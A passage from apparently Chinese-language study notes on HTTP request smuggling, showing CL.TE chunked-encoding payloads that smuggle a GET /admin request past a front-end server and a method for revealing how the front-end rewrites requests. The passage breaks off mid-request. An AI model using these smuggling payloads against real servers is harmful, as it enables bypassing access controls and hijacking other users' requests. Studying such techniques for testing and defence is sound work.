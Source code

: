         7c
        GET /404 HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 144
        
        x=
        0
        
        
        ```
        
        前端全部传送，后端在`7c`处截断。

#### 0.3 Exploiting HTTP request smuggling vulnerabilities

* 绕过前端安全控制

    ```http
    POST /home HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 62
    Transfer-Encoding: chunked
    
    0
    
    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: xGET /home HTTP/1.1
    Host: vulnerable-website.com
    ```

    这样前端能看到两个`/home`请求（第一个第三个），然后后端能看到一个`/home`，以及一个`/admin`。

* 识别前端改写请求

    * 请求更改形式：
        * 终止TLS连接，并添加一些描述所使用的协议和密码的头信息
        * 增加一个包含用户IP地址的`X-Forwarded-For`头。
        * 根据用户的session token确定用户的ID，并添加一个识别用户的头。
        * add some sensitive information that is of interest for other attacks.
    * 找出前端服务器如何重写请求
        1. 找到一个POST请求，将请求参数的值反映到应用程序的响应中。
        2. 对参数进行洗牌，使反映的参数在消息体中最后出现。
        3. 将这个请求偷渡到后端服务器，后面直接跟着一个正常的请求，你要揭示其重写的形式。

    * 如发送下面这个请求。

        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 130
        Transfer-Encoding: chunked
        
        0
        
        POST /login HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 100
        